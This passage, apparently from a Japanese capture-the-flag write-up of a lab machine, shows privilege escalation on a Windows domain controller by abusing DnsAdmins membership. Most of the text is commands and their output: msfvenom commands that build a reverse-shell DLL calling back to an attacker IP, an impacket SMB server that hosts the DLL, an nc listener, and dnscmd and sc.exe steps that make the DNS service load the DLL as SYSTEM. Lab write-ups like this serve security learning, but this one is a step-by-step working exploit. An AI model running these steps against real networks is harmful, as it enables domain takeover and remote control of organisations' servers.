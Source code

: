 c.f.) 
- [Read Teaming Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise)
- https://youtu.be/8KJebvmd1Fk
- [日本語resolu手のwriteup](https://qiita.com/MarshMallow_sh/items/52e04ee4166c7b2b345c#dnsadmins%E6%A8%A9%E9%99%90%E3%82%92%E7%94%A8%E3%81%84%E3%81%9F%E6%A8%A9%E9%99%90%E6%98%87%E6%A0%BC)
- https://phackt.com/dnsadmins-group-exploitation-write-permissions

**WindowsのDNSにはカスタムプラグインとしてDLLを読み込む機能がある。<br>（dns.exeがSYSTEM権限で動いているという前提で）そのカスタムプラグインとしてrevshellを
起動するようなDLLを読み込ませればよい！**


#### ryanはDnsAdminsグループに属す：

```
*Evil-WinRM* PS C:\> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level
```

#### dnsが動いてることを確認：

```
*Evil-WinRM* PS C:\Users\ryan> Get-Process -Name dns

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName
-------  ------    -----      -----     ------     --  -- -----------
   5307    3699    69092      68004              3404   0 dns
```

#### dnsサービスの確認：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe query dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

#### マリシャスdll（ペイロード）の作成：

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=4444 -f dll --platform windows -o rev.dll

or

msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.3 LPORT=443 -f dll rev.dll
```

#### rev.dllがあるディレクトリでsmbサーバを立てる：

（DLLをアップロードすると検疫されてしまうのでその対策）

```
sudo impacket-smbserver kali ./
or
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . -smb2support
```

#### 早めにkali側でlistenerを立てておく：

```
$ nc -nvlp 4444
```

#### ryanのリバースシェル上でマリシャスdllをdnsで設定：
> - According to Microsoft protocol specification, the **ServerLevelPluginDl** operation enables us to load a dll of our choosing.
> - dnscmd.exe already implements this option: `dnscmd.exe /config /serverlevelplugindll \\path\to\dll`
> - When executing this dnscmd.exe command as a user (a member of DnsAdmins), this registry key is populated: `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`

*（注意）このマシンは1分ごとに各サービスが再起動するように設定されていることがnote.txtよりわかっている。*

[ryanのリバースシェル上]

（Resolute.megabank.localはDomainControllerの名前）

```
*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe resolute.megabank.local /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll

or

*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe 127.0.0.1 /config /serverlevelplugindll \\10.10.14.3\kali\rev.dll
```
レジストリの値`ServerLevelPluginDll`がきちんと我々のマリシャスdllを指し示してることを確認：

```
*Evil-WinRM* PS C:\Users\ryan\Documents> Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Services\DNS\Parameters\ -Name ServerLevelPluginDll


ServerLevelPluginDll : \\10.10.14.3\kali\rev.dll
PSPath               : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS\Parameters\
PSParentPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\DNS
PSChildName          : Parameters
PSDrive              : HKLM
PSProvider           : Microsoft.PowerShell.Core\Registry
```

注）kali側のsmbサーバの反応が少し遅いので、そこは動いてないと勘違いしないように！

**SMBサーバーはつけっぱなしだ！！！DNSのrestartするタイミングでDLLをダウンロードしようとするから。**

#### DNSを再起動：

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

*Evil-WinRM* PS C:\Users\ryan> sc.exe start dns
```
もしくは

```
*Evil-WinRM* PS C:\Users\ryan> sc.exe \\Resolute.megabank.local stop dns

*Evil-WinRM* PS C:\Users\ryan> sc.exe \\Resolute.megabank.local start dns
```

**（注）ペイロードの作り方で結果が全然違う！！！！architectureの指定とかplatform指定の有無とか。**

